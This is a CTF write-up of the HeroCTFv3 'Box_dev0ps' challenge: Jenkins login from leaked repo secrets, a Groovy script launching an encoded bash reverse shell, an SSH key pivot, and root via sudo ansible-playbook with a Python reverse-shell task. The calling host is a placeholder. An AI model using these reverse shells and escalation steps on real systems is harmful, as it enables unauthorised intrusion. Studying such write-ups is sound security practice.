HeroCTFv3 - Box_dev0ps - Write up
Hi everyone, this is my write-up of the Box challenge from the HeroCTFv3, challenge which was created by xanhacks (https://twitter.com/xanhacks). The box was in three parts, first, get a shell on the first docker, after, get a shell on the second docker, and last part, get root privilege.
Foothold
Nmap scan first (which was given) :
$ nmap -p 3000,8080,2222 box.heroctf.fr -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-18 22:30 CEST
Nmap scan report for box.heroctf.fr (35.246.63.133)
Host is up (0.019s latency).
rDNS record for 35.246.63.133: 133.63.246.35.bc.googleusercontent.com
PORT STATE SERVICE VERSION
2222/tcp open ssh OpenSSH 8.1 (protocol 2.0)
3000/tcp open ppp?
8080/tcp open http Jetty 9.2.z-SNAPSHOT
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.06 seconds
There are two websites, a Gitea with two repositories :

and a Jenkins website :

So we need to log in into Jenkins website. So let’s search into the 2 repositories if we can find something interesting. We see a .env file on the Infra repo :

We tried to log in with admin and the MySQL password, but failed :( Nothing more interesting on the Infra repo (except one thing that I’ve missed when I did the challenge) :

And we are going to see that “heroes” was the admin password. On the moment, I’ve seen this, and I tried admin with “git:heroes” because I didn’t check the doc of chpasswd. We are going to put this on the time that it was.(5 a.m) :) .
So we checked Ecommerce repository, we see nothing clearly, so we checked the commits.

Nice, we see this Private ssh key in one of the commit of Ecommerce repo. After a few tries to log directly in ssh with, we try to crack it.

Nice, we got the password, so we tried to log in with it with admin user and yup, we are in.

Now we have to check for classic exploit with Jenkins.

We see that we could execute groovy script. We are going to execute a malicious script to get a shell. Here it is :
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC94eC54eC54eC54eHgveHh4eCAwPiYxJw==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
We put a little reverse shell one liner like this into base64 :
bash -c 'bash -i >& /dev/tcp/xx.xx.xx.xxx/xxxx 0>&1'
We’re just launched netcat, and we execute the script :


Yup, we are in the box, and we get the first flag : Hero{dc97a2f7da5304d12fe820bd2a6d343d}
Pivot
We move into our folder, and we see this script in our home folder:

So we find an OpenSSH private of the Gitea docker like we could see in the name of the script. Let’s convert it into an RSA private key and tried to log in with. We use this little script :
#!/usr/bin/env bash
set -e
set -x
original_key=$1
puttygen_destinaton=${original_key}_puttygen
rsa_destinaton=${original_key}_rsa
# FROM OPENSSH to SSH2 ENCRYPTED
puttygen $original_key -O private-sshcom -o $puttygen_destinaton
# FROM SSH2 ENCRYPTED format to RSA
ssh-keygen -i -f $puttygen_destinaton > $rsa_destinaton
$ sh convert.sh ../OPENSSH
$ file OPENSSH_rsa
OPENSSH_rsa: PEM RSA private key
Now we tried to log in the gitea container.

We see the docker file of Gitea container, and we see that the username is “git”. So we try to log in ssh with the private key on the port 2222 which was the ssh port.
Now, time to root part, a simple sudo -l going to tell us what we have to do :)
gitea:~$ sudo -l
User git may run the following commands on gitea:
(ALL) NOPASSWD: /usr/bin/ansible-playbook
Few search of the ansible-playbook command, and we see that it allow running YAML script to automatize tasks. We also see that we could execute bash script/commands. So, we could execute the command with this, and we could execute the command with sudo rights, so game over :) We are going to use this YAML script :
- name: Shell
hosts: localhost
tasks:
- name: SHELL
shell: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xxx.xx.xxx",xxxx));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
gitea:/tmp$ sudo /usr/bin/ansible-playbook shell.yml
...
TASK [SHELL] ********************************************************************************************************
...

We get the reverse shell connection back :)
We put the second flag : Hero{ce4e994cb477dec9b1ea876db647c562}
Thanks to xanhacks, this was a really cool box which include a totally new functionality exploitation for me with the root part.
Thanks for reading and see you later :)